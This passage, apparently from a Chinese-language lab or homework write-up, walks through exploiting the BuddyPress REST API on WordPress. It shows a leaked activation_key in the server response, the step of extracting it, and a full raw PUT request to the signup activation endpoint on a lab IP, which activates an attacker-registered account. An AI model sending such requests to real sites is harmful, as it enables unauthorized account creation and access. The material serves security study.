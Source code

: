          [{"id":3,"user_login":"attcker1","registered":"2025-05-22T03:48:36","user_name":"attacker1","activation_key":"aoM0svmO72kVVPbNxYadAKifjIUuYqj8","user_email":"attacker1@163.com","date_sent":"2025-05-22T03:48:36","count_sent":1,"meta":{"field_1":"attacker1","profile_field_ids":1}}]
         ```
2. **提取激活密钥**
   - 发送请求后，服务器会返回一个响应包，其中包含 `activation_key`。
   ![1747885758997](image/homework/1747885758997.png)
   `activation_key` : `aoM0svmO72kVVPbNxYadAKifjIUuYqj8`
   - 提取 `activation_key`，用于后续的激活操作。

3. **构造激活请求**
   - 使用提取的 `activation_key` 构造 PUT 请求，发送到 `/wp-json/buddypress/v1/signup/activate/<activation_key>`。
   ![1747885790638](image/homework/1747885790638.png)
   - 请求体与注册请求相同。
   - 完整请求包：
        ```
        PUT /wp-json/buddypress/v1/signup/activate/aoM0svmO72kVVPbNxYadAKifjIUuYqj8 HTTP/1.1
        Host:192.168.20.12:10459
        Upgrade-Insecure-Requests: 1
        User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/136.0.0.0 Safari/537.36 Edg/136.0.0.0
        Accept: */*
        Accept-Encoding: gzip, deflate
        Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
        Content-Type: application/json; charset=UTF-8
        Content-Length: 112